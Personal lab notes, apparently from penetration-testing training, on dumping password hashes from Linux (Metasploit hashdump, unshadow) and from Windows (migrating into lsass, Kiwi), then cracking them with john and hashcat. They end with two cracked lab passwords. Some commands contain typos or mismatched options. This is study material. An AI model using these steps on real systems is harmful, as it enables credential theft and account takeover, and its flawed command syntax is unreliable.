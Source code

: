 ## Linux

![](</Images/Pasted image 20240120132018.png>)

Can either use john with passwd/shadow file or meterpreter command

After getting admin meterpreter:
`post/linx/gather/hashdump`
That creates the unshadowed file like`unshadow`

Then use john `john --format==sha512crypt <hash file> --wordlist=<wordlist>`

or hashcat `hashcat -a3 -m <hash type 1800> <hash file> <wordlist>`

## Windows Hashes

![](</Images/Pasted image 20240120133053.png>)

![](</Images/Pasted image 20240120133125.png>)

![](</Images/Pasted image 20240120133504.png>)

- Need elevated meterpreter privileges to start
- Migrate to lsass via pgrep. Upgrades to x64 and stabilize meterpreter

Can use Kiwi or hashdump to get hashes and then save into file

via john
- john --list=format to see format options
- john --format=NT {hashfile} --wordlist={wordlist but not necessay}

via hashcat
- hashcat  -a3 (brute force) -m 1000  {hash file} {wordlist}


password1        (bob)
password         (Administrator)